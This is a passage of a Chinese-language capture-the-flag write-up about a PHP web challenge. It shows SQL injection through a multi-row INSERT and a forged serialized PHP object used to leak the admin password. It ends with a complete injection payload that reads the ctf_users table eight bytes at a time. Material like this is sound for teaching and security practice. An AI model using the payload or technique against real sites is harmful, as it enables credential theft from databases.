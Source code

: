 写注入payload的部分是在 `$mood`中,这是一个序列化后的`Mood`类,好像没法直接出数据，用盲注又太麻烦，但是因为mysql的insert可以一次插入多条数据：

```sql
insert into table (`username`,`password`) values ('user1','pass1'),('user2','pass2')
```

所以这里可以通过`$_POST['signature']`一直往后覆盖，把输出点放到下一条数据的的`$_POST['signature']`字段，但是问题来了，我不知道自己的`userid`,插入进去也看不到啊。。（因为我没发现竟然可以包含session，包含session之后就看到`userid`了，这是一种思路).下面是我当时的做法。

**我的做法**

我看了看代码之后，发现其实 `Mood`本身就有输出点的，在`views/index`页面:

```Php
echo htmlentities($data['data'][$i]['sig'])."<br><br>";
$mood = (int)$data['data'][$i]['mood']['mood'];
echo "<img src='img/$mood.gif'><br><br>";
echo "published ".$data['data'][$i]['subtime']."<br>";
```

`Mood`类的`mood`参数被直接输出到页面中了,但是需要注意的是进行了一个int类型的转换,如果可以伪造`Mood`类的`mood`属性就可以了。

```php
$mode = new Mood((int)"1","114.114.114.114");
$mode->data = "0";  // 把data设置为0，可以直观的从页面的publish time中看到注入的数据是否被成功反序列化
echo serialize($mode);
//O:4:"Mood":4:{s:4:"mood";i:1;s:2:"ip";s:15:"114.114.114.114";s:4:"date";i:1520912184;s:4:"data";s:1:"0";}
```

现在来解决整型的问题，因为在php中,最大的整型是8个字节，所以有32个字节的数据，分四次读出，每次8个字节，转化为10进制。

```php
php > echo dechex(PHP_INT_MAX);
7fffffffffffffff
```

最后注入的payload为：

```
signature=username`,concat(`O:4:"Mood":3:{s:4:"mood";i:`,(select conv(hex((select mid((select password from ctf_users where is_admin=1 ),1,8))),16,10)),`;s:2:"ip";s:15:"114.114.114.114";s:4:"date";s:1:"0";}`))#&mood=0
```

![](./img/1.png)
